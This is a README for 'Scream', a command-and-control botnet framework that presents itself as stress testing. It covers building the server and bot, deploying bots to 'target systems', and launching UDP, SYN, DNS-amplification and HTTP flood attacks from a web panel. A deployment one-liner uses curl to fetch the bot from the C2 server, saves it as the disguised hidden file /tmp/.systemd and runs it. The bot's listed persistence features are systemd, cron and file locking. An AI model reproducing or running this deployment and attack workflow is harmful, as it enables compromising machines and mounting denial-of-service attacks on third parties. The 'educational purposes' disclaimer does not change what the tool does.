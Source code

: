 # Scream C2 Framework - README

## Overview
Scream is a lightweight Command and Control (C2) framework with integrated stress testing capabilities. This framework provides a web-based interface for managing a botnet and launching various types of network stress tests.

<table>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/736a91e2-4c10-439e-9bf7-128ec9ee7841" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/122e26d1-1b6c-4065-acb3-7af89746fb6a" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/948fb62d-5861-4963-8c15-ee110c31e21d" width="100%"/></td>
  </tr>
</table>

## Features

### Web-based Management Interface
- Real-time bot monitoring  
- Attack control panel  
- User management system  
- Attack history tracking  

### Stress Testing Capabilities
- UDP Flood  
- TCP Flood  
- SYN Flood  
- ACK Flood  
- GRE Flood  
- DNS Amplification  
- HTTP Flood  

### Bot Management
- Automatic bot connection handling  
- Heartbeat monitoring  
- Hardware resource reporting  
- Remote command execution  

### Security Features
- Challenge-response authentication  
- TLS encrypted communications  
- Session management  
- Password complexity enforcement  

---

## Installation

### Prerequisites
- Go 1.18+ installed  
- Basic server with root access  
- Domain name (recommended for SSL)  

### Quick Start

**Clone the repository:**
```bash
git clone https://github.com/yourusername/scream-c2.git
cd scream-c2
```

**Build the server and bot:**
```bash
go build -o server main.go
go build -o bot bot.go
```

**Generate SSL certificates (if needed):**
```bash
./server --gen-cert
```

**Start the server:**
```bash
./server
```

**Deploy the bot to target systems.**

---

## Configuration

### Server Configuration
The server can be configured by modifying the constants in `main.go`:

```go
const (
    USERS_FILE          = "users.json"         // User database file
    BOT_SERVER_IP       = "0.0.0.0"            // Bot connection interface
    BOT_SERVER_PORT     = "7003"               // Bot connection port
    WEB_SERVER_IP       = "0.0.0.0"            // Web interface interface
    WEB_SERVER_PORT     = "443"                // Web interface port
    CERT_FILE           = "server.crt"         // SSL certificate
    KEY_FILE            = "server.key"         // SSL private key
)
```

### Bot Configuration
Modify the C2 address in `bot.go`:

```go
const (
    C2Address = "your.server.ip:7003" // Change to your server's IP/domain
)
```

---

## Usage

### Accessing the Web Interface
Navigate to `https://your-server-ip` in your browser

**Login with the default credentials:**
- **Username:** `root`
- **Password:** *(generated on first run, check console output)*

### Managing Bots
- The dashboard shows all connected bots  
- View bot details by clicking on a bot in the list  
- Monitor bot status (active/inactive) via the status indicator  

### Launching Attacks
- Select an attack method from the dropdown  
- Enter the target IP/hostname  
- Specify the target port  
- Set the duration (in seconds)  
- Click **"Initiate Attack Sequence"**

### User Management
Admin/Owner users can:
- Create new users  
- Delete existing users  
- Modify user access levels  

---

## Security Considerations

⚠️ **Important Security Notes:**
- Change the default root password immediately after first login  
- Use strong, complex passwords for all user accounts  
- Restrict access to the web interface (firewall rules, VPN, etc.)  
- Regularly monitor and audit user activity  
- Keep the server software updated  

---

## Bot Deployment

### Linux Deployment

```bash
# Download and execute
curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tmp/.systemd
```

### Persistence Methods
The bot includes several persistence mechanisms:
- Systemd service  
- Cron job  
- File locking (prevent deletion)  

---

## Troubleshooting

### Common Issues

#### Bots not connecting:
- Verify the C2 address in the bot binary  
- Check firewall rules on the server  
- Ensure the bot server is running on the correct port  

#### Web interface not loading:
- Verify SSL certificates are properly configured  
- Check if the web server is running  
- Ensure port 443 (or your configured port) is open  

#### Attack not working:
- Verify target IP/port is correct  
- Check if bots are properly connected  
- Ensure the attack method is appropriate for the target  

---

## License
This software is provided for educational and research purposes only. The authors are not responsible for any misuse of this tool.
